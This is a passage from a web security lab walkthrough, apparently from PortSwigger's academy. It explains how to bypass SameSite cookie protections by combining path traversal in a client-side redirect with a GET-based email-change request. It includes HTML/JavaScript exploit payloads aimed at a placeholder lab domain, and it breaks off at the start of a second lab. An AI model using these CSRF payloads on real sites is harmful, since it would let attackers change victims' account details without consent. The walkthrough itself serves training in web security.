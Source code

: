 - In the proxy history, right-click on the `GET /post/comment/confirmation?postId=x` request and select Copy URL.
- In the browser, visit this URL, but change the postId parameter to an arbitrary string.
- `/post/comment/confirmation?postId=foo`
- Observe that you initially see the post confirmation page before the client-side JavaScript attempts to redirect you to a path containing your injected string, for example, `/post/foo`.

- Try injecting a path traversal sequence so that the dynamically constructed redirect URL will point to your account page:
`/post/comment/confirmation?postId=1/../../my-account`

- Observe that the browser normalizes this URL and successfully takes you to your account page. This confirms that you can use the postId parameter to elicit a GET request for an arbitrary endpoint on the target site.

### Bypass the SameSite restrictions
- In the browser, go to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested. The following is one possible approach:
```html
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```
Store and view the exploit yourself.
Observe that when the client-side redirect takes place, you still end up on your logged-in account page. This confirms that the browser included your authenticated session cookie in the second request, even though the initial comment-submission request was initiated from an arbitrary external site.

### Craft an exploit
- Send the `POST /my-account/change-email` request to Burp Repeater.
- In Burp `Repeater`, right-click on the request and select Change request method. Burp automatically generates an equivalent `GET` request.
- Send the request. Observe that the endpoint allows you to change your email address using a `GET` request.
- Go back to the exploit server and change the postId parameter in your exploit so that the redirect causes the browser to send the equivalent GET request for changing your email address:
```html
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```
---

# Bypassing SameSite restrictions via vulnerable sibling domains
Study the live chat feature

    In Burp's browser, go to the live chat feature and send a few messages.

    In Burp, go to the Proxy > HTTP history tab and find the WebSocket handshake request. This should be the most recent GET /chat request.
